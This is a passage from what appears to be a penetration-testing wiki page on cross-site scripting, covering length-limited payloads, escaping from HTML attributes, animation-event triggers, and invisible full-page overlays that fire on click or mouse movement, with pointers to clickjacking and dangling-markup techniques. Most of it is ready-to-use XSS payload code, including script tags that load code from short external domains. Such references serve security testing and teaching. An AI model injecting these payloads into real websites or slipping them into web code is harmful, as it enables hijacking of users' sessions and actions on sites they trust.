 ### Length bypass (XSS in 20chars)

Taken from the blog of [Jorge Lajara](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html).

```javascript
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).\
**More tiny XSS for different environments** payload [**can be found here**](https://github.com/terjanq/Tiny-XSS-Payloads) **\*\*and \[**&#x68;ere\*\*]\([https://tinyxss.terjanq.me/](https://tinyxss.terjanq.me/)).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking#xss-clickjacking) (if the page is vulnerable).

### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](dangling-markup-html-scriptless-injection)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](#injecting-inside-raw-html) to execute JS code.\
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like (_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_):

```javascript
" autofocus onfocus=alert(document.domain) x="
```

#### Style events

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
